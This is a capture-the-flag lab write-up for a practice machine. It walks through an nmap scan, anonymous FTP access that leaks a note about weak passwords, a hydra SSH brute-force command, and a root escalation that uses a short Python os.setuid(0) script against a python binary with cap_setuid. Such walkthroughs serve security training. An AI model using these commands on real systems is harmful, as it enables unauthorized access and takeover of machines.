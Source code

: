 ## hackers writeup 02
namp scan gives you the folowing results:-
```
root@5h4rk:~# nmap -sV -p- 10.10.166.184
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-09 17:59 BST
Nmap scan report for 10.10.166.184
Host is up (0.022s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
9999/tcp open  abyss?
```
=> there is a Anonymous login avilabel with FTP so enumerating <br>
that gives you a note which says:- <br>
```
Note:
Any users with passwords in this list:
love
sex
god
secret
will be subject to an immediate disciplinary hearing.
Any users with other weak passwords will be complained at, loudly.
These users are:
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
Eugene Belford, CSO
```
as the note said rcampbell has a weak password so with the help of hydra we can get the password for ssh using:-

```
hydra ssh://10.10.99.187 -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64
```
once you get the credentials just login using them you got the user shell!  <br>
Now time for root. <br>
so doing some enumeration i found this:-
```
rcampbell@gibson:~$ getcap -r / 2>/dev/null
/usr/bin/python3.6 = cap_setuid+ep
/usr/bin/python3.6m = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```
setuid looks intresting. that allows the process to use the setuid system call fully. <br>
so with the help of that lets set uid with os.setuid(id) and get root this is the script i used.

```
import os,pty

os.setuid(0)
pty.spawn("/bin/bash")
```
running this gave me root.
```
rcampbell@gibson:~$ python3 root.py 
root@gibson:~# id -a
uid=0(root) gid=1002(rcampbell) groups=1002(rcampbell)
``` 
so you rooted the machine its time to echo your name to king and protect it :) 
